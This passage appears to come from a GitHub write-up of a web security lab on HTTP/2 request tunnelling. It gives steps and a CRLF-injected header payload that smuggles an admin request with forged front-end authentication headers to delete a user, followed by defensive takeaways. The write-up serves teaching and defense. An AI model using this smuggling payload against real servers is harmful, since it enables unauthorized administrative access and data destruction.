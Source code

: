    ```sh
   ```
9. Change the request method to HEAD and edit your malicious header so that it smuggles a request for the admin panel. Include the three client authentication headers, making sure to update their values as follows:<br>
   **Name**
   ```sh
   foo: bar\r\n
   \r\n
   GET /admin HTTP/1.1\r\n
   X-SSL-VERIFIED: 1\r\n
   X-SSL-CLIENT-CN: administrator\r\n
   X-FRONTEND-KEY: YOUR-UNIQUE-KEY\r\n
   \r\n
   ```
   **Value**
   ```sh
   xyz
   ```
10. Send the request and observe that you receive an error response saying that not enough bytes were received. This is because the `Content-Length` of the requested resource is longer than the tunnelled response you're trying to read.
11. Change the `:path` pseudo-header so that it points to an endpoint that returns a shorter resource. In this case, you can use `/login`.
12. In the response, find the URL for deleting `carlos` (/admin/delete?username=carlos), then update the path in your tunnelled request accordingly and resend it. Although you will likely encounter an **error response**, carlos is deleted and the lab is solved.
    
## 📖 Key Takeaways
- H2 → H1 downgrade + `\r\n` in headers lets you inject/split requests.
- **High impact**: forging front-end authentication headers lets you access admin endpoints (full takeover) if back-end blindly trusts those headers.
- **Defenses**: normalize and sanitize H2→H1 downgrades (reject CRLF in header names/values), canonicalize/strip front-end injected auth headers at the proxy boundary, and enforce back-end per-request auth (don’t trust proxy-supplied headers).

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/97e51d63-6fbd-4648-abb9-5481e71e7098" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/fd9d9420-e3b4-4bb5-97d5-8ad6be7be99e" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/45191fea-59a1-4396-93d5-37d6a53f4c81" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/98056214-acc7-4365-9e86-75293f91fc61" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/cec13159-6601-4e2c-a4ea-fcc60c016dab" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/6ca4a3a8-7326-4954-87fe-0ae26536f26b" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/8308f18c-ef7d-4368-bc69-7389177c4f81" />

